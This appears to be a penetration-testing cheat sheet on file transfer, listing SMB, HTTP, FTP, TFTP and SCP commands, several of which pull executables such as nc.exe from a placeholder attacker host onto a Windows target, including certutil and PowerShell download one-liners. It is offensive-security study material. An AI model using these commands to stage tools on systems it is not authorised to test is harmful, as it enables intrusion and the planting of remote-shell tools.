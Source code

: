 # File Transfers
## SMB Server
-> Setting
```bash
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```powershell
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## HTTP
-> start a web server
```bash
python -m SimpleHTTPServer 80
service apache2 start
```

-> Windows - file download
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux - file download
```bash
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
-> Install and Configure
```bash
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```powershell
echo open <IP> 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```powershell
ftp -v -n -s:ftp.txt
```

## TFTP (Trivial File Transfer Protocol)
-> Install and Configure
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> Transfer
```powershell
tftp -i <IP> get file
```

## SCP (Secure File Copy)
```
scp file <user>@<IP>:/home/user/
```

